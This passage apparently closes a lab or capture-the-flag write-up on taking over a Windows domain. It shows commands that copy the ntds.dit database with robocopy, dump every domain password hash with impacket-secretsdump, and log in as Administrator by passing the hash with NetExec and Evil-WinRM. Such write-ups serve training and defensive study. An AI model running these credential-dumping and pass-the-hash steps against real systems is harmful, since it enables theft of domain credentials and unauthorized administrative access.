

Finally, copy the NTDS.dit to C:

```bash
robocopy /b E:\Windows\ntds . ntds.dit
```



After downloading it locally, secretsdump can dump the hashes:

```bash
impacket-secretsdump -sam SAM -system SYSTEM -ntds ntds.dit LOCAL
```


## Pwned

Passing the hash via NetExec reveals it is valid and the domain is pwned:

```bash
nxc smb 10.10.115.109 -u 'Administrator' -H [HASH]
```



Using Evil-WinRM, the machine is pwned:

```bash
evil-winrm -i 10.10.115.109 -u 'Administrator' -H [HASH]
```



